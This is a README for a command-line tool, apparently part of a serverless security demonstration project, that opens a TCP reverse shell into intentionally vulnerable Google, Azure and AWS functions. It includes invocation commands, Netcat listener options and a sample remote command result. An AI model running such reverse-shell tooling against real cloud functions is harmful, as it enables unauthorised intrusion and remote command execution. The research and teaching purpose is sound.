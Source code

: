 # Serverless Prey CLI

This is a command-line interface for establishing a TCP reverse shell connection to a Serverless Prey function. With it, you can accomplish steps 2 through 4 on the below diagram with a single command:

![Diagram](../docs/diagram.png "Diagram")

## Usage

We do not recommend invoking this script directly. Instead, you can use the specific aliases for each platform:

```
cheetah/script/cheetah --url-id GOOGLE_PROJECT_ID
cougar/script/cougar --url-id AZURE_FUNCTION_APP_ID --api-key AZURE_FUNCTION_APP_API_KEY
panther/script/panther --url-id AMAZON_API_GATEWAY_ID --api-key AMAZON_API_GATEWAY_API_KEY
```

### Options

* `--url`, `-u`: The base URL for the vulnerable endpoint. This is the function URL in the Serverless Framework deployment output for Panther and Cheetah, and `http://$COUGAR_FUNCTION_HOST/api/Cougar` for Cougar.
* `--api-key`, `-a`: The API key for the function. This is required for all platforms except for Google (Cheetah).
* `--port`, `-p` (Optional): The port that the Netcat server will listen on. Defaults to 4444.
* `--command`, `-c` (Optional): If provided, this command will be executed as soon as the connection to the Serverless container is established. The connection will be terminated one second later, and the results will be displayed. Example: `panther/script/panther --url-id AMAZON_API_GATEWAY_ID --api-key AMAZON_API_GATEWAY_API_KEY --command id # uid=496(sbx_user1051) gid=495 groups=495`
* `--loop`, `-l` (Optional): If set to true, whenever a successful connection times out, the CLI will attempt to automatically reconnect. This option is ignored if `--command` is set.

